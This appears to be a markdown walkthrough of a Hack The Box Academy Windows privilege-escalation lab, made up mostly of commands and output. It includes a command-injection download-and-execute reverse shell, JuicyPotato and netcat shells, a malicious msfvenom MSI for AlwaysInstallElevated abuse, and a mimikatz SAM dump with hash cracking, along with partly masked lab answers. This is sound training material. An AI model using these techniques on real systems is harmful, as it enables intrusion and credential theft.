



# [Windows Privilege Escalation](https://academy.hackthebox.com/module/details/67)

## Skills Assessment - Windows Privilege Escalation

### Part I

> During a penetration test against the INLANEFREIGHT organization, you encounter a non-domain joined Windows server host that suffers from an unpatched command injection vulnerability. After gaining a foothold, you come across credentials that may be useful for lateral movement later in the assessment and uncover another flaw that can be leveraged to escalate privileges on the target host.
> For this assessment, assume that your client has a relatively mature patch/vulnerability management program but is understaffed and unaware of many of the best practices around configuration management, which could leave a host open to privilege escalation.
> Enumerate the host (starting with an Nmap port scan to identify accessible ports/services), leverage the command injection flaw to gain reverse shell access, escalate privileges to `NT AUTHORITY\SYSTEM` level or similar access, and answer the questions below to complete this portion of the assessment.

Questions:
1. Which two KBs are installed on the target system? (Answer format: `3210000&3210060`). `3199986&3200970`
2. Find the password for the `ldapadmin` account somewhere on the system. `car3f****************`
3. Escalate privileges and submit the contents of the `flag.txt` file on the Administrator Desktop. `Ev3ry*********************`
4. After escalating privileges, locate a file named `confidential.txt`. Submit the contents of this file. `5e5a7***************************`

#### External Information Gathering

```
┌──(nabla㉿kali)-[~]
└─$ sudo nmap -Pn -sS -p- 10.129.216.148 -T4

[SNIP]

PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

```
┌──(nabla㉿kali)-[~]
└─$ whatweb http://10.129.216.148

http://10.129.216.148 [200 OK] ASP_NET[4.0.30319], Country[RESERVED][ZZ], HTTPServer[Microsoft-IIS/10.0], IP[10.129.216.148], Microsoft-IIS[10.0], Title[DEV Connection Tester], X-Powered-By[ASP.NET]
```



#### Foothold - Command Injection



```
┌──(nabla㉿kali)-[~]
└─$ rlwrap nc -lvnp 1337

listening on [any] 1337 ...

[CONTINUE]
```

```
┌──(nabla㉿kali)-[~]
└─$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 ~/revsh.ps1
```

```
┌──(nabla㉿kali)-[~]
└─$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.186 -Port 1337' >> ~/revsh.ps1
```

```
┌──(nabla㉿kali)-[~]
└─$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

```
10.10.15.186 && powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.15.186:8000/revsh.ps1')
```



```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.216.148] 49678
Windows PowerShell running as user WINLPE-SKILLS1-$ on WINLPE-SKILLS1-
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>
```

```
PS C:\windows\system32\inetsrv> whoami

iis apppool\defaultapppool
```

```
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

#### Initial Enumeration - System Information

```
PS C:\windows\system32\inetsrv> wmic qfe

Caption                                     CSName           Description      FixComments  HotFixID   InstallDate  InstalledBy          InstalledOn  Name  ServicePackInEffect  Status  

http://support.microsoft.com/?kbid=3199986  WINLPE-SKILLS1-  Update                        KB3199986 📌             NT AUTHORITY\SYSTEM  11/21/2016                                      

http://support.microsoft.com/?kbid=3200970  WINLPE-SKILLS1-  Security Update               KB3200970 📌             NT AUTHORITY\SYSTEM  11/21/2016
```

#### Windows Privilege Escalation - Windows User Privileges

```
┌──(nabla㉿kali)-[~]
└─$ rlwrap nc -lvnp 7331

listening on [any] 7331 ...

[CONTINUE]
```

```
PS C:\Users\Public> systeminfo | findstr "OS"

OS Name:                   Microsoft Windows Server 2016 Standard
OS Version:                10.0.14393 N/A Build 14393
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
```

```
PS C:\windows\system32\inetsrv> C:\Users\Public\JuicyPotato.exe -l 53375 -p C:\Windows\System32\cmd.exe -a "/c C:\Users\Public\nc.exe 10.10.15.186 7331 -e cmd.exe" -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" -t *
```

```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.216.148] 49700
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```
C:\Windows\system32> whoami

nt authority\system
```

```
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt

Ev3ry********************* 📌
```

```
C:\Windows\system32> cd C:\ && where /R C:\ confidential.txt

C:\Users\Administrator\Music\confidential.txt
```

```
C:\Windows\system32> type C:\Users\Administrator\Music\confidential.txt

5e5a7*************************** 📌
```

#### Credential Hunting - Search File Contents for String

```
C:\Windows\system32> cd C:// & findstr /SI "ldapadmin" *.ini *.cfg *.config *.xml

FINDSTR: Out of memory ❌
```

```
C:\Windows\system32> powershell -Command "Get-ChildItem -Path C:\Users\ -Recurse -File | Select-String -Pattern 'ldapadmin'"

[SNIP]

Users\Administrator\.ApacheDirectoryStudio\.metadata\.plugins\org.apache.direct
ory.studio.connection.core\connections.xml:4:  <connection 
id="21f81b55-9e67-4f2a-b9e7-1939d662f017" name="LDAP.inlanefreight.local" 
host="dc01.inlanefreight.local" port="389" encryptionMethod="NONE" 
authMethod="SIMPLE" bindPrincipal="ldapadmin" 
bindPassword="car3f****************" 📌 saslRealm="" saslQop="AUTH" 
saslSecStrenght="HIGH" saslMutualAuth="false" krb5CredentialsConf="USE_NATIVE" 
krb5Config="DEFAULT" krb5ConfigFile="" krb5Realm="" krb5KdcHost="" 
krb5KdcPort="88" readOnly="false" timeout="30000">
```

---
---

### Part II

> As an add-on to their annual penetration test, the INLANEFREIGHT organization has asked you to perform a security review of their standard Windows 10 gold image build currently in use by over 1,200 of their employees worldwide. The new CISO is worried that best practices were not followed when establishing the image baseline, and there may be one or more local privilege escalation vectors present in the build. Above all, the CISO wants to protect the company's internal infrastructure by ensuring that an attacker who can gain access to a workstation (through a phishing attack, for example) would be unable to escalate privileges and use that access move laterally through the network. Due to regulatory requirements, INLANEFREIGHT employees do not have local administrator privileges on their workstations.
> You have been granted a standard user account with RDP access to a clone of a standard user Windows 10 workstation with no internet access. The client wants as comprehensive an assessment as possible (they will likely hire your firm to `test/attempt` to bypass EDR controls in the future); therefore, Defender has been disabled. Due to regulatory controls, they cannot allow internet access to the host, so you will need to transfer any tools over yourself.
> Enumerate the host fully and attempt to escalate privileges to `administrator/SYSTEM` level access.

Questions:
1. Find left behind cleartext credentials for the `iamtheadministrator` domain admin account. `Inl@n********************`
2. Escalate privileges to `SYSTEM` and submit the contents of the `flag.txt` file on the Administrator Desktop. `el3va***********************`
3. There is one disabled local admin user on this system with a weak password that may be used to access other systems in the network and is worth reporting to the client. After escalating privileges retrieve the NTLM hash for this user and crack it offline. Submit the cleartext password for this account. `passw****`

#### Initial Access

```
┌──(nabla㉿kali)-[~]
└─$ xfreerdp /v:10.129.43.33 /u:htb-student /p:'HTB_@cademy_stdnt!' /dynamic-resolution
```

#### Credential Hunting - Search File Contents for String

```
C:\Users\htb-student> cd C:// & findstr /SIP /M "iamtheadministrator" *.* 2> nul

Users\htb-student\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Windows\Panther\unattend.xml
```

```
C:\Users\htb-student> type C:\Windows\Panther\unattend.xml

[SNIP]

<AutoLogon>
<Password>
<Value>Inl@n********************</Value> 📌
<PlainText>true</PlainText>
</Password>
<Enabled>false</Enabled>
<Username>INLANEFREIGHT\iamtheadministrator</Username>
</AutoLogon>
```

#### Windows Privilege Escalation - Always Install Elevated Settings Abuse

```
C:\Users\htb-student> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```
C:\Users\htb-student> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

```
┌──(nabla㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.186 LPORT=1337 -f msi > aie.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
```

```
┌──(nabla㉿kali)-[~]
└─$ nc -lnvp 1337

listening on [any] 1337 ...

[CONTINUE]
```

```
┌──(nabla㉿kali)-[~]
└─$ python3 -m http.server 8000

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

[CONTINUE]
```

```
C:\Users\htb-student> curl http://10.10.15.186:8000/aie.msi -o C:\Users\Public\aie.msi
```

```
C:\Users\htb-student> msiexec /i C:\Users\Public\aie.msi /quiet /qn /norestart
```

```
[CONTINUE]

connect to [10.10.15.186] from (UNKNOWN) [10.129.43.33] 49676
Microsoft Windows [Version 10.0.18363.592]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

```
C:\Windows\system32> whoami

nt authority\system
```

```
C:\Windows\system32> type C:\Users\Administrator\Desktop\flag.txt

el3va*********************** 📌
```

#### Windows Credentials Extraction

```
C:\Users\htb-student> curl http://10.10.15.186:8000/mimikatz.exe -o C:\Users\Public\mimikatz.exe
```

```
C:\Windows\system32> C:\Users\Public\mimikatz.exe "token::elevate" "lsadump::sam" "exit"

[SNIP]

RID  : 000003eb (1003)
User : wksadmin
  Hash NTLM: 5835048ce94ad0564e29a924a03510ef
```

```
┌──(nabla㉿kali)-[~]
└─$ hashcat -m 1000 '5835048ce94ad0564e29a924a03510ef' /usr/share/wordlists/rockyou.txt

[SNIP]

5835048ce94ad0564e29a924a03510ef:passw**** 📌

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1000 (NTLM)
Hash.Target......: 5835048ce94ad0564e29a924a03510ef
```

---
---
